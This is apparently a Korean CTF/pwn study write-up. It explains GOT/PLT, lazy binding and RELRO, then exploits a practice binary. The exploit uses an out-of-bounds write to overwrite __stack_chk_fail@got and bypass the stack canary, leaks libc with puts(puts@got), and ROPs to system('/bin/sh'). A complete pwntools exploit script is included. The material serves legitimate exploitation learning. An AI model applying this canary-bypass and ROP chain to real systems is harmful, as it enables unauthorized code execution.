



> OOB write(임의 쓰기)로 `__stack_chk_fail@got`를 덮어 **카나리를 우회** → startup BOF로 ROP → puts(puts@got)로 libc leak → system("/bin/sh")
> 

---

## 0. Global Offset Table(GOT)

### GOT = "함수 → 실제 주소" 표이다.

바이너리의 데이터 영역(`.got.plt`)에 **함수마다 한 칸(8바이트)**씩 있다

```
GOT:
  puts@got    (0x404018) : [ puts의 실제 libc 주소 ]
  printf@got  (0x404xxx) : [ printf의 실제 libc 주소 ]
  system@got            : [ ... ]
```

puts 함수를 호출한다고 할 때의 과정은 아래와 같다.

(아래 그림은 Lazy binding 1번 상황이다. 즉 첫 번째 호출 상황.)

```python
call puts@plt → jmp *[puts@got] → (resolver 경로) → 주소 찾아 GOT에 기록 → 그제서야 puts
```

(아래 그림은 Lazy binding 2번 상황이다. 즉 두 번째 호출부터의 상황.)

```python
call puts@plt
   │
   ▼
puts@plt:  jmp *[puts@got]      ← GOT 칸에 든 "실제 주소"로 점프
                 │
                 ▼
          libc의 진짜 puts 코드 실행
```

- **PLT(Procedure Linkage Table)** = “GOT를 거쳐 점프하는 작은 중계 코드”.
- **GOT** = "실제 주소가 적힌 표".
- → `call puts@plt` → `jmp *puts@got` → 실제 puts. **GOT 칸의 값이 곧 점프 목적지**

간단히 말하자면, 함수를 호출하면 plt가 got 칸을 거쳐 점프한다.( got 주소를 확인해,  호출된 함수의 실제 주소로 점프하여 함수를 실행하는 것이다.)

### GOT가 왜 필요한가: “libc 함수 주소를 컴파일 때 모른다”

프로그램이 `puts("hi")`를 부르면, 실제 `puts` 코드는 **libc.so.6 안**에 있다. 여기서

ibc는 **별도 파일**이고, **ASLR 때문에 매번 다른 주소**에 로드되고 이로 인해, **컴파일 시점엔 `puts`의 진짜 주소를 알 수 없다.**

→ 그래서 "주소를 **나중에(실행 중) 채워 넣을** 빈칸"이 필요하고. 그 빈칸들의 표가 **GOT(Global Offset Table)** 인 것이다. 

### Lazy binding (처음엔 빈칸이다)

효율 때문에 **처음 호출할 때** 주소를 채운다.

1. **첫 호출**: GOT 칸이 아직 "해석기(resolver)"를 가리킴 → resolver가 libc에서 puts 주소를 찾아 **GOT 칸에 써넣음** → 점프.
2. **그 이후**: GOT 칸에 이미 실제 주소가 있으니 바로 점프한다(빠름).

→ 그래서 **한 번이라도 호출된 함수의 GOT 칸엔 "실제 libc 주소"가 들어있다.**

### Exploit 관점

GOT는 **데이터 영역**이라 두 가지로 악용된다.

**① GOT leak (읽기) — libc 유출**

GOT 칸엔 **libc 실제 주소**가 들어있으므로 그 칸을 읽으면 libc 베이스를 역산할 수 있다.

**② GOT overwrite (쓰기) — 함수 가로채기 / 보호기법 무력화**

GOT 칸이 **쓰기 가능**(Partial RELRO)이면, 그 값을 바꿔치기할 수 있다.

## .got vs .got.plt

### 핵심 차이

|  | `.got` | `.got.plt` |
| --- | --- | --- |
| 담는 것 | **전역 변수**의 실제 주소 | **함수**의 실제 주소 |
| 예 | `stdin`, `stdout`, `environ` 등 libc 전역변수 | `puts`, `printf`, `system` 등 libc 함수 |
| 채우는 시점 | 보통 **시작할 때 바로** | **lazy binding** (처음 호출 때) |
| 익스에서 | 덜 씀 | **GOT overwrite/leak 에 자주 쓰임** |

### lazy binding 때문에 나뉜다.

- **함수(`.got.plt`)** → **처음 호출될 때까지 주소를 안 채운다** (lazy). (안 쓰는 함수 주소는 해석 안 해서 빠르다.) → 그래서 **"실행 중 써넣어야" 하니 쓰기 가능**해야 하므로 별도 섹션(`.got.plt`)으로 분리했다
- **변수(`.got`)** → **시작하자마자 다 채운다** (변수는 바로 쓰이니까 미룰 이유가 없다). → 채우고 나면 안 바뀌어서 **잠가도(읽기전용) 무관하다.**

### 보호 기법: Partial RELRO vs Full RELRO

- **Partial RELRO** → `.got.plt`가 **쓰기 가능** → GOT overwrite 가능하다.
- **Full RELRO** → GOT가 **읽기 전용**으로 잠긴다 → overwrite 불가능하다.

> Full RELRO에서는 lazy binding이 아니라 bind now이기 때문에 시작할 때 모든 GOT를 미리 채운 뒤 읽기전용으로 바꾸어버린다.
> 

---

## 1. 대상 분석

### 1-1. 코드 분석

```c
unsigned long long wire[100];        // 전역 배열 (bss, 고정 주소)

void startup(){
    char wish[0x100];
    read(0, wish, 0x200);            // 0x100 버퍼에 0x200 읽음 -> 256바이트 오버플로우
}

void menu(){ /* 1.Re-map ecu  2.Start a car  3.Die XD */ }

int main(){
    setbuf(stdout,0); setbuf(stdin,0);
    while(1){
        int select;
        menu();  printf("> ");
        scanf("%d", &select);  getchar();
        if (select == 1){                 // Re-map ecu
            scanf("%d", &select);  getchar();     // index : 범위 검사 없음
            scanf("%llu", &wire[select]);         // wire[select] 에 임의 값 쓰기가능
        } else if (select == 2){
            startup();                    // startup 함수 -> 스택 오버플로우가능 
        } else { return 1; }
    }
}
```

- **Menu 1: OOB write — 임의 주소 쓰기**: `wire[select]`의 `select`에 **범위 검사가 없다.**
음수/큰 값을 넣으면 `wire` 배열 밖, 특히 **GOT까지** 닿는다. `scanf("%llu", ...)`로 **임의
8바이트 값**을 써넣을 수 있다 → **write-what-where.** (No PIE라 `wire`·GOT 주소 고정)
- **Menu 2: startup 스택 오버플로우**: `char wish[0x100]`에 `read(0, wish, 0x200)` → 256바이트
오버플로우 → 리턴주소 장악 가능. **(카나리 문제를 해결하긴 해야한다.)**

> **카나리 leak이 불가능하다.** (이 프로그램은 사용자 데이터를 출력하는 곳이 전혀 없다 puts/printf 전부 고정 문자열). 따라서 **카나리도 libc도 읽어낼 방법이 없다.**
> 

### 1-2. 보호기법 확인 (checksec)



- **Partial RELRO** → **GOT 쓰기 가능** → GOT Overwrite 가능.
- **Canary** → 스택 오버플로우(menu 2)를 막는다. 근데 카나리 leak 수단이 없어 **우회**해야 한다.
- **NX** → 쉘코드 불가 → ROP.
- **No PIE** → `wire`·GOT·가젯·`main` 전부 **고정 주소** → 하드코딩 가능. 단 **libc는 ASLR**이라
libc leak은 여전히 필요.

---

## 2. 익스플로잇 아이디어

### 2-1. canary 우회

처음엔 menu 1으로 카나리를 leak 할 수 있지 않을까 생각했지만, **menu 1은 쓰기 전용**이고 코드를 보니 **출력
수단 자체가 없다.**

대신 **OOB write(임의 쓰기)로 카나리 검사 자체를 무력화할 수 있다(GOT Overwrite)**. 

> **`__stack_chk_fail@got`를 `ret` 가젯 주소로 덮는다.**
카나리가 깨지면 startup 에필로그에서 `call __stack_chk_fail`이 실행되는데, 그 GOT가 `ret`을
가리키면 **아무것도 안 하고 되돌아와 `leave; ret`이 정상 진행**된다. → 카나리 검사가 우회된다.
> 

### 2-2. __stack_chk_fail 우회 원리

**startup 에필로그(disass)**

```nasm
sub  rax, fs:0x28
je   .ok                       ; 카나리 일치 -> 건너뜀
call __stack_chk_fail@plt      ; 불일치 -> 호출 (평소엔 abort)
.ok:
leave
ret
```

- `__stack_chk_fail@plt`은 내부적으로 `jmp *__stack_chk_fail@got`.
- **`__stack_chk_fail@got = ret 가젯`** 으로 덮으면:
`call __stack_chk_fail` → (리턴주소 `.ok` push) → `ret`로 점프 → 바로 `.ok`로 되돌아옴 →
`leave; ret` 정상 진행 →  **덮은 리턴주소로 ROP**
- 즉 **카나리가 틀려도(아무 값으로 smash) 그냥 통과한다.**

### 2-3. win 없음·바이너리에 system 없음 → libc 필요

`system`이 바이너리에 없으므로, startup BOF로 리턴주소를 잡은 뒤 **libc의 system**을 써야 한다.(libc leak 필요)
**`pop rdi; ret` 가젯은 바이너리에 존재**(0x4011fe)하므로, ROP로
`puts(puts@got)`를 호출해 libc를 유출할 수 있다.



### 2-4. libc leak : puts(puts@got)

startup BOF로 ROP를 심어 `puts(puts@got)`를 호출하면, **puts@got에 든 "libc의 실제 puts 주소"**
가 출력된다 → `libc_base = leak - libc.sym['puts']`. 유출 후 **`main`으로 되돌아와(재진입)** 메뉴
루프를 다시 돌려 2차 오버플로우를 한다.

### 2-5. 익스플로잇 구조(while(1) 반복문 이용)

```
[1] GOT overwrite (menu 1): wire[-12] = ret 가젯  → __stack_chk_fail@got 덮어 카나리 우회
[2] libc leak    (menu 2): startup BOF → ROP [pop rdi][puts@got][puts@plt][main]
                           → puts(puts@got) → libc 유출 → main 재진입
[3] system       (menu 2): startup BOF → ROP [pop rdi][binsh][ret정렬][system]
                           → system("/bin/sh") → 셸
```

---

## 3. 필요한 정보 확인

### 3-1. 주소 모으기

|  | 값 | 출처 |
| --- | --- | --- |
| `pop rdi ; ret` | 0x4011fe | `ROPgadget --binary ./got | grep 'pop rdi'` |
| 순수 `ret` | 0x40101a | `ROPgadget --binary ./got | grep ': ret$'` |
| `wire[]` 베이스 | 0x404080 | `nm ./got | grep -w wire` |
| `__stack_chk_fail@got` | 0x404020 | `objdump -R ./got | grep stack_chk_fail` |
| `puts@got` | 0x404018 | `objdump -R ./got | grep puts` |
| `puts@plt` | 0x4010a0 | startup disasm `call 0x4010a0 <puts@plt>` |
| `main` | 0x40129d | `nm ./got | grep -w main` |

### 3-2. OOB index 계산 (__stack_chk_fail@got 덮기)

`wire[select]` 주소 = `wire + select*(원소 크기)`. 이게 `__stack_chk_fail@got`이 되게 하는 index:

```
0x404080 + select*8 = 0x404020
select*8 = 0x404020 - 0x404080 = -0x60
select   = -0x60 / 8 = -12
```

→ **menu 1에서 index = -12, value = 0x40101a(ret)** 로 쓰면 `__stack_chk_fail@got`가 ret이 된다.
(`select`가 `int`라 음수가 그대로 들어간다.)

### 3-3. startup 오프셋 (wish → 리턴주소)

disass startup 기준: `wish = rbp-0x110`, `canary = rbp-0x8`, `return = rbp+0x8`.

```
오프셋 = (rbp+0x8) - (rbp-0x110) = 0x118 = 280   (read 0x200=512 크기 한도? 내이다.)
```

### 3-4. libc 가젯 (libc leak 후)

`libc.address`를 세팅하면 pwntools가 전부 실제 주소로 돌려준다:

| 부품 | 구하는 법 |
| --- | --- |
| "/bin/sh" | `next(libc.search(b'/bin/sh\x00'))` |
| `system` | `libc.sym['system']` |
| (ROP는 바이너리 pop rdi·ret 재사용) | 0x4011fe / 0x40101a |

---

## 4. Exploit

```python
from pwn import *
context.arch = 'amd64'
context.log_level = 'info'

libc = ELF('/lib/x86_64-linux-gnu/libc.so.6', checksec=False)
p = process('./got')

POP_RDI  = 0x4011fe
RET      = 0x40101a
STKCHK   = 0x404020      # __stack_chk_fail@got
PUTS_GOT = 0x404018
PUTS_PLT = 0x4010a0
MAIN     = 0x40129d
OFF      = 0x118

def got_write(idx, value):               # menu1 : wire[idx] = value
    p.sendlineafter(b'> ', b'1')
    p.sendlineafter(b'number : ', str(idx).encode())
    p.sendlineafter(b'value : ', str(value).encode())

def overflow(payload):                   # menu2 : startup read 오버플로우
    p.sendlineafter(b'> ', b'2')
    p.sendafter(b'Hope the car starts!\n', payload)

# 카나리 우회 : __stack_chk_fail@got = ret
got_write(-12, RET)                      # wire[-12] = __stack_chk_fail@got

# libc leak : puts(puts@got) → main 재진입
overflow(b'A'*OFF + p64(POP_RDI) + p64(PUTS_GOT) + p64(PUTS_PLT) + p64(MAIN))
leak = u64(p.recvline().strip().ljust(8, b'\x00'))
libc.address = leak - libc.sym['puts']
log.success('libc base = %#x' % libc.address)
assert libc.address & 0xfff == 0, "libc base 정렬 안 맞음"
# libc base는 반드시 000으로 끝난다.
# system("/bin/sh")
binsh  = next(libc.search(b'/bin/sh\x00'))
system = libc.sym['system']
overflow(b'A'*OFF + p64(POP_RDI) + p64(binsh) + p64(RET) + p64(system))

p.interactive()
```

### payload 구조

```
[ 'A'×0x118 ][ pop_rdi ][ puts@got ][ puts@plt ][ main ]
  280바이트    리턴주소부터 ROP:
                puts(puts@got) → libc puts 실제주소 출력 → main 재진입
```

### ROP 흐름

- **[2]** `pop rdi → puts@got` → `puts@plt` 실행 → puts가 **puts@got의 값(libc 주소)** 출력 →
`main`으로 복귀 → 루프 재시작
- **[3]** `pop rdi → "/bin/sh"` → `ret`(16정렬) → `system` → `system("/bin/sh")` → 셸

---

## 5. 클리어



---
